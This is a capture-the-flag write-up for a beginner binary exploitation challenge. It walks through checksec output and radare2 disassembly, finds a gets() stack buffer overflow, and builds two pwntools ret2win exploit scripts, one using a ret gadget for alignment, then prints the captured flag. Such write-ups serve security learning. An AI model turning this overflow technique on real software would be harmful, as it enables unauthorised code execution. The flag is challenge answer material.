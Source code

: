 Pwn01
=

Can you return my flag here?

### Netact: nc pwn01.ctf.teamquark.com 65301

### Files: [pwn01.zip](./pwn01.zip)

### Author: @mrerror0790 (community)

Quick Overview
=

This is just a basic program that seems to take our input and terminate ! Let's see 
how it works under the hood and if we have potential vulnerabilities

## Running the binary

```
┌───────────────────────────────────────────────────────────────────────┐
│ ██████╗ ██╗   ██╗ █████╗ ██████╗ ██╗  ██╗     ██████╗████████╗███████╗│
│██╔═══██╗██║   ██║██╔══██╗██╔══██╗██║ ██╔╝    ██╔════╝╚══██╔══╝██╔════╝│
│██║   ██║██║   ██║███████║██████╔╝█████╔╝     ██║        ██║   █████╗  │
│██║▄▄ ██║██║   ██║██╔══██║██╔══██╗██╔═██╗     ██║        ██║   ██╔══╝  │
│╚██████╔╝╚██████╔╝██║  ██║██║  ██║██║  ██╗    ╚██████╗   ██║   ██║     │
│ ╚══▀▀═╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝     ╚═════╝   ╚═╝   ╚═╝     │
└───────────────────────────────────────────────────────────────────────┘
Yo hackers give me the address to find out my way ............!
>qsdqsd

(binary terminated)
```

Information Gathering
=

The file is an ELF 64 executable (LSB) and the following securities are applied
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   67 Symbols	  No	0	
```

Seems we got lucky, there is no canary or PIE but NX is enabled and since libc wasn't given it's unlikely
to be ret2libc or shellcode injection.

Code
=

Reverse Engineering tool : **radare2**


Listing the functions in the binary we get this list : 
```
0x00401080    1     42 entry0
0x004010c0    4     31 sym.deregister_tm_clones
0x004010f0    4     49 sym.register_tm_clones
0x00401130    3     28 sym.__do_global_dtors_aux
0x00401160    1      2 sym.frame_dummy
0x00401290    1      1 sym.__libc_csu_fini
0x00401294    1      9 sym._fini
0x00401162    1     37 sym.way_out
0x00401040    1      6 sym.imp.puts
0x00401050    1      6 sym.imp.system
0x00401230    4     93 sym.__libc_csu_init
0x004010b0    1      1 sym._dl_relocate_static_pie
0x00401187    1    154 main
0x00401030    1      6 sym.imp.putchar
0x00401070    1      6 sym.imp.fflush
0x00401060    1      6 sym.imp.gets
0x00401000    3     23 sym._init
```

we get a lot of standard functions and the main function of the binary but also **sym.way_out**

**way_out**:
```asm
│           0x00401162      55             push rbp
│           0x00401163      4889e5         mov rbp, rsp
│           0x00401166      bf08204000     mov edi, str.Yo_buddy_you_got_me_out..._ ; 0x402008 ; "Yo buddy you got me out...!" ; const char *s
│           0x0040116b      e8d0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401170      bf24204000     mov edi, str._bin_cat_flag.txt ; 0x402024 ; "/bin/cat flag.txt" ; const char *string
│           0x00401175      e8d6feffff     call sym.imp.system         ; int system(const char *string)
│           0x0040117a      bf36204000     mov edi, 0x402036           ; '6 @' ; "\n" ; const char *s
│           0x0040117f      e8bcfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401184      90             nop
│           0x00401185      5d             pop rbp
└           0x00401186      c3             ret
```

Seems like the way_out function prints "Yo buddy you got me out...!" and read the flag file.
This seems like we're gonna have to make the program return to this function somehow.

Now let's check the main function for vulnerabilities.

**main**:
```asm
│           0x00401187      55             push rbp
│           0x00401188      4889e5         mov rbp, rsp
│           0x0040118b      4883ec30       sub rsp, 0x30 // Allocates 48 bytes on the stack
│           0x0040118f      897ddc         mov dword [rbp-0x24], edi    ; argc
│           0x00401192      488975d0       mov qword [rbp-0x30], rsi    ; argv
│           0x00401196      bf38204000     mov edi, 0x402038           ; '8 @' ; const char *s
│           0x0040119b      e8a0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011a0      bf18214000     mov edi, str._______________ ; 0x402118 ; const char *s
│           0x004011a5      e896feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011aa      bfd8214000     mov edi, str.________       ; 0x4021d8 ; const char *s
│           0x004011af      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011b4      bfa8224000     mov edi, str.________________________ ; 0x4022a8 ; const char *s
│           0x004011b9      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011be      bf58234000     mov edi, str.______________________ ; 0x402358 ; const char *s
│           0x004011c3      e878feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011c8      bf08244000     mov edi, str._____________________ ; 0x402408 ; const char *s
│           0x004011cd      e86efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011d2      bfc0244000     mov edi, str.__________________________ ; 0x4024c0 ; const char *s
│           0x004011d7      e864feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011dc      bf68254000     mov edi, str.               ; 0x402568 ; const char *s
│           0x004011e1      e85afeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011e6      bf48264000     mov edi, str.Yo_hackers_give_me_the_address_to_find_out_my_way_............_ ; 0x402648 ; "Yo hackers give me the address to find out my way ............!" ; const char *s
│           0x004011eb      e850feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011f0      bf3e000000     mov edi, 0x3e               ; '>' ; 62 ; int c
│           0x004011f5      e836feffff     call sym.imp.putchar        ; int putchar(int c)
│           0x004011fa      488b054f2e00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404050:8]=0
│           0x00401201      4889c7         mov rdi, rax                ; FILE *stream
│           0x00401204      e867feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x00401209      488d45e0       lea rax, [rbp-0x20]
│           0x0040120d      4889c7         mov rdi, rax                ; char *s
│           0x00401210      b800000000     mov eax, 0
│           0x00401215      e846feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      c9             leave
└           0x00401220      c3             ret
```

As we can see here arguments are being copied on the stack:
- argc -> rbp-0x24 (int64_t)
- argv -> rbp-0x30 (8 bytes pointer since this is x64)

And there is a 32 bytes char buffer left to fill the rest of the stack.
Then the program prints a whole bunch of text for the banner and asks
us for input ! 

Now the big red flag is that it's using the function **gets()** which is incredibly famous
for being absolutely trash since it generates buffer overflows like a charity for hackers.

Since we have a 32 bytes buffer, any input over 32 will start writing memory on the stack.
Considering that rbp is pushed on the stack at the start of the function the return address
RIP will jump to after the main function executes is stored at offset **40** from the start of our
buffer.

Now we have all the ingredients for a juicy overflow:
- Buffer overflow in the main frame
- the offset to overwrite RIP
- the address of the function to read the flag

Building the exploit
=

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Running this does print the first message of the way_out function
but seems like we fucked up the stack too much for it to call system afterwards.

A common trick I use in order to fix stacks for function calls
is calling a *ret* gadget on the function address which should rebuild a "healthy" stack around the function call

Using **ROPgadget** we find this, 0x0000000000401016 : ret

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
ret_gadget =  0x401016
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(ret_gadget)
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Now running the exploit we get this :
```
[~/Documents/CTF-Writeups/HackEnvision/pwn01]$ ./exploit.py REMOTE
quarkCTF{i7s_34sY_70_r37uN_0n_f14g}
```

And we got our flag! 

`quarkCTF{i7s_34sY_70_r37uN_0n_f14g}`
